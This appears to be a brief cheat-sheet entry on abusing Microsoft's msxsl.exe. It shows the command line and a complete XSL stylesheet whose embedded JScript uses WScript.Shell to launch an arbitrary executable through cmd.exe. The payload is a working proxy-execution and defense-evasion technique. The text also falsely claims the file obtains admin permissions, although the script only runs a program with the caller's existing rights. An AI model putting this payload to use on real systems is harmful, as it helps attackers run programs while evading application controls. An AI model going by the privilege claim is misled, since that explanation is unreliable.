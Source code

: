 #Microsoft

***

`XSL` files are used to describe how the `XML` files are processed. The syntax is as follows:
`msxsl.exe file.xml script.xsl`

The file below for example gets admin permissions by using an `XSL` file as follows:

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
 
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /k C:\\Secret\\a.exe");
   return nodelist.nextNode().xml;
 
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```
